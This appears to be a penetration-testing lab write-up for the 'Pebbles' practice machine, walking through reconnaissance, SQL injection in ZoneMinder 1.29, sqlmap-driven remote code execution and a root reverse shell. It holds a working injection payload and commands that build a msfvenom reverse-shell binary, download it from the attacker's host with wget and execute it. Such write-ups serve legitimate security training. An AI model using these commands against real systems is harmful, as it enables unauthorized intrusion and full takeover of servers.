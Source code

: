 > Noamro08 - 29 Feb 2024

### Target: 192.168.202.52
---
### Enumeration:
nmap scan - services + default scans:
```bash
(kali㉿kali)-[~/…/oscp/PG/practice/pebbles]
└─$ nmap -Pn -n -A 192.168.202.52 -oN initial.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 14:51 IST
Nmap scan report for 192.168.202.52
Host is up (0.078s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
|_  256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Tomcat
|_http-favicon: Apache Tomcat
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

all ports scan:
```bash
nmap -Pn -n -p- 192.168.202.52 -oN all_ports.scan
# Nmap 7.94SVN scan initiated Thu Feb 29 14:53:26 2024 as: nmap -Pn -n -p- -oN all_ports.scan 192.168.202.52
Nmap scan report for 192.168.202.52
Host is up (0.078s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3305/tcp open  odette-ftp
8080/tcp open  http-proxy
```

scan for port 3305:
```bash
nmap -Pn -n -A -p3305 192.168.202.52                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 14:59 IST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 192.168.202.52
Host is up (0.077s latency).

PORT     STATE SERVICE VERSION
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Trying ftp port 21:
there is no anonymous logon, leaving this port for now.

in port 80 we see login page, default creds are not working, fuzzing directories with ffuf:
```bash
ffuf -u http://192.168.202.52/FUZZ -w /usr/share/dirb/wordlists/big.txt -c
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.202.52/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 84ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 3002ms]
cgi-bin/                [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 77ms]
css                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 77ms]
images                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 77ms]
javascript              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 79ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 89ms]
zm                      [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 79ms]
```

"zm" looks interesting, and it is "ZoneMinder Console - Running - default v1.29.0".
searching [online](https://www.exploit-db.com/exploits/41239) we can see that there is SQL injection for "Zoneminder 1.29":
It appears that the limit parameter is vulnerable to stacked queries. Using the following POST payload:
view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#&minTime=5
We can make the server sleep for 5 seconds.
![[Pasted image 20240229155157.png]]

with sqlmap we can ger RCE: 
```bash
sqlmap http://192.168.202.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -p limit --os-shell
```

i generated rev shell with msfvenom:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.166 LPORT=80 -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

and started python server:
```bash
python3 -m http.server 80
```

now download this file with the rce and catch the rev shell with nc listener:
```bash
os-shell> wget http://192.168.45.166/shell.elf
os-shell> chmod +x shell.elf
```

![[Pasted image 20240229165820.png]]
we get the shell as root!

```bash
cat /root/proof.txt:
c78ef30a7034c751939072f67a4bc5ec
```